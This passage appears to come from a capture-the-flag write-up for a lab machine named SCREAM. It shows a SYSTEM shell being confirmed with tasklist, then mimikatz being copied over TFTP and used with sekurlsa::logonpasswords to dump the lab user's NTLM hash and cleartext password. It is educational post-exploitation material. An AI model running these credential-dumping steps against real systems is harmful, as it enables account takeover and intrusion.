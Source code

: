 Initially, I tried to verify this was indeed the SYSTEM account by echoing the `%USERNAME%` var, but it wasn't set (first time I have seen that happen); so I started up a new instance of notepad and then used `tasklist` to verify the owner of the process:

```shell_session
C:\WINDOWS\system32>echo %username%
echo %username%
%username%

C:\WINDOWS\system32>tasklist /v | find "notepad.exe"
tasklist /v | find "notepad.exe"
notepad.exe  3776  Console  0  2,624 K  Running  NT AUTHORITY\SYSTEM  0:00:00 Untitled - Notepad  
```

## Getting The Local User Password
The final step was to recover the local user's password. Using TFTP, again, I transferred a copy of [mimikatz](https://github.com/gentilkiwi/mimikatz) on to the system, which I was able to use to grab the password for the `alex` account and finish the challenge:

```shell_session
C:\www\root>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.1.1 (x86) built on Aug 13 2017 17:27:38
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 37308 (00000000:000091bc)
Session           : Interactive from 0
User Name         : alex
Domain            : SCREAM
Logon Server      : SCREAM
Logon Time        : 8/19/2017 5:06:49 PM
SID               : S-1-5-21-1417001333-484763869-682003330-1003
	msv :
	 [00000002] Primary
	 * Username : alex
	 * Domain   : SCREAM
	 * NTLM     : 504182f8417ed8557b67e96adc8b4d04
	 * SHA1     : c84389be8e78f275c4530b00ba54aea1cbd347f7
	wdigest :
	 * Username : alex
	 * Domain   : SCREAM
	 * Password : thisisaverylongpassword
	kerberos :
	 * Username : alex
	 * Domain   : SCREAM
	 * Password : thisisaverylongpassword
```
